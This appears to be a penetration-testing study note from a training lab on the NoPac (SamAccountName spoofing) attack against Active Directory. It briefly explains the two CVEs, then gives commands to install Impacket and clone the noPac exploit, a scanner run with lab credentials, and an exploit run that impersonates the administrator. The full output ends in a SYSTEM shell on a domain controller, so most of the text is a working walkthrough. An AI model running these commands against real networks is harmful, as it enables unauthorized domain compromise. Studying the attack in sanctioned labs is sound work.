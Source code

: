 # Bleeding Edge Vulnerabilities

All attacks come with a risk : For example, the PrintNightmare attack could potentially crash the print spooler service on a remote host and cause a service disruption.

## NoPac (SamAccountName Spoofing)

2021-42278 is a bypass vulnerability with the Security Account Manager (SAM).
2021-42287 is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.

By default, authenticated users can add up to ten computers to a domain.

1) We change the name of the new host to match a Domain Controller's SamAccountName.
2) We request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name.
3) When a TGS is requested, it will issue the ticket with the closest matching name.
4) Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller. 

0) Preparation

Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install

Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git

Scanning for NoPac
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663

--> vulnerable

Running NoPac & Getting a Shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
